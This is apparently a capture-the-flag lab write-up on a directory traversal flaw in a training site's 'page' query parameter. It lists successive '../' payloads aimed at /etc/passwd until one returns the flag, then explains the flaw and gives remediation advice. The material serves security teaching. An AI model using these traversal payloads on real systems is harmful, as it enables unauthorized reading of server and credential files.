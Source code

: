 # Breach: Directory Traversal via Page Parameter

## Discovery & Exploit

The website uses a query parameter to load pages:

``?page=XXX``

This pattern is commonly vulnerable to **directory traversal**, which allows access to arbitrary files on the server.

We tested for this by attempting to access the UNIX password file `/etc/passwd`, incrementally increasing the traversal depth:

- `?page=../etc/passwd` → Response: “Wtf ?”
- `?page=../../etc/passwd` → “Wrong..”
- `?page=../../../etc/passwd` → “Nope..”
- `?page=../../../../etc/passwd` → “Almost.”
- `?page=../../../../../etc/passwd` → “Still nope..”
- `?page=../../../../../../etc/passwd` → “Nope..”
- `?page=../../../../../../../etc/passwd` →  
→ **Success**, response with the [flag](../flag).

## Vulnerability Details

This is a **Path Traversal Attack**, where an attacker manipulates file paths to access restricted files outside the intended web root.

This is often possible when:

- User input is concatenated into file paths without sanitization
- The application does not restrict or validate path traversal characters (`../`)

References:

- https://owasp.org/www-community/attacks/Path_Traversal
- https://portswigger.net/web-security/file-path-traversal

## Remediation

1. Normalize and sanitize all user-supplied file paths.
2. Use a strict whitelist of allowed pages/files.
3. Avoid including user input directly in filesystem paths.
4. Run web applications with limited file system permissions.
5. Log and alert on unusual file access attempts.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../../Breach10_SurveyValueBypass/Ressources/writeup.md">← Previous: Breach10</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right"><a href="../../Breach12_StoredXSSFeedbackForm/Ressources/writeup.md">Next: Breach12 →</a></td>
  </tr>
</table>